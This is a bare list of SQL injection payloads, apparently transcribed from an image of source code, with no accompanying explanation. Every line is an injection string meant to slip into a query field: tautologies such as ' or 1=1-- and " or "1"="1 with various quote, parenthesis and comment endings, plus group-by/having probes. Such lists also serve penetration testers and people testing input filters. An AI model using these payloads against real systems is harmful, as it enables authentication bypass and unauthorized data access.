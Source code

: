 ```
' group by userid having 1=1--
' group by username having 1=1--
 like '%'
" or "" "
" or ""&"
" or ""*"
" or ""-"
" or ""="
" or ""^"
' or '' '
' or ''&'
' or ''*'
' or ''-'
' or ''='
' or ''^'
'="or'
 or 0=0 #
 or 0=0 -
 or 0=0 --
" or 0=0 #
" or 0=0 -
" or 0=0 --
%' or '0'='0
' or         0=0 #
' or 0=0 #
' or 0=0 -
' or 0=0 --
 or 1=1
 or 1=1#
 or 1=1-
 or 1=1--
 or 1=1/*
" or "1"="1
" or "1"="1"#
" or "1"="1"--
" or "1"="1"/*
" or 1=1
" or 1=1 -
" or 1=1 --
" or 1=1#
" or 1=1-
" or 1=1--
" or 1=1/*
") or "1"="1
") or "1"="1"#
") or "1"="1"--
") or "1"="1"/*
") or ("1"="1
") or ("1"="1"#
") or ("1"="1"--
") or ("1"="1"/*
' or '1'='1
' or '1'='1'#
' or '1'='1'--
' or '1'='1'/*
' or '1?='1
' or 1=1
' or 1=1 -
' or 1=1 --
' or 1=1#
' or 1=1-
' or 1=1--
' or 1=1/*
```